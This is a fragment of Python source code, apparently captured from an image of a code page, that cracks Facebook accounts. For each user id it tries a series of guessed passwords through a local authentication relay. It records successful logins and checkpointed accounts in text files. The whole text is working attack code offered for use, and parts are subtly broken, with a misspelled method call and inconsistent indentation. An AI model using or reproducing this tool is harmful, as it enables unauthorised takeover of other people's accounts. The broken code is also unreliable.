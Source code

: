 				else:
					data = requests.get("http://localhost:5000/auth?id="+uid+"&pass="+pass2, headers=header).text
					q = json.loads(data)
					if "loc" in q:
						print("\033[1;92m[Successful] \033[1;96m"+uid+" | "+pass2+"\033[0;97m")
						ok = open("successful.txt", "a")
						ok.write(uid+" | "+pass2+"\n")
						ok.close()
						oks.append(uid+pass2)
					else:
						if "www.facebook.com" in q["error"]:
							print("\033[1;91m[CheckPoint] "+uid+" | "+pass2+"\033[0;97m")
							cp = open("checkpoint.txt","a")
							cp.write(uid+" | "+pass2+"\n")
							cp.close()
							cps.append(uid+pass2)
						else:
							data = requests.get("http://localhost:5000/auth?id="+uid+"&pass="+pass3, headers=header).text
							q = json.loads(data)
							if "loc" in q:
								print("\033[1;92m[Successful] \033[1;96m"+uid+" | "+pass3+"\033[0;97m")
								ok = open("successful.txt", "a")
								ok.write(uid+" | "+pass3+"\n")
								ok.close()
								oks.append(uid+pass3)
							else:
								if "www.facebook.com" in q["error"]:
									print("\033[1;91m[CheckPoint] "+uid+" | "+pass3+"\033[0;97m")
									cp = open("checkpoint.txt","a")
									cp.write(uid+" | "+pass3+"\n")
									cp.close()
									cps.append(uid+pass3)
								else:
									data = requests.get("http://localhost:5000/auth?id="+uid+"&pass="+pass4, headers=header).text
									q = json.loads(data)
									if "loc" in q:
										print("\033[1;92m[Successful] \033[1;96m"+uid+" | "+pass4+"\033[0;97m")
										ok = open("successful.txt", "a")
										ok.write(uid+" | "+pass4+"\n")
										ok.close()
										oks.append(uid+pass4)
									else:
										if "www.facebook.com" in q["error"]:
											print(" \033[1;91m[CheckPoint] "+uid+" | "+pass4+"\033[0;97m")
											cp = open("checkpoint.txt","a")
											cp.write(uid+" | "+pass4+"\n")
											cp.close()
											cps.apppend(uid+pass4)
									        else:
									                data = requests.get("http://localhost:5000/auth?id="+uid+"&pass="+pass5, headers=header).text
									                q = json.loads(data)
									                if "loc" in q:
										                print("\033[1;92m[Successful] \033[1;96m"+uid+" | "+pass5+"\033[0;97m")
										                ok = open("successful.txt", "a")
										                ok.write(uid+" | "+pass5+"\n")
										                ok.close()
										                oks.append(uid+pass5)
									                else:
										                if "www.facebook.com" in q["error"]:
											                print(" \033[1;91m[CheckPoint] "+uid+" | "+pass5+"\033[0;97m")
											                cp = open("checkpoint.txt","a")
											                cp.write(uid+" | "+pass5+"\n")
											                cp.close()
											                cps.apppend(uid+pass5)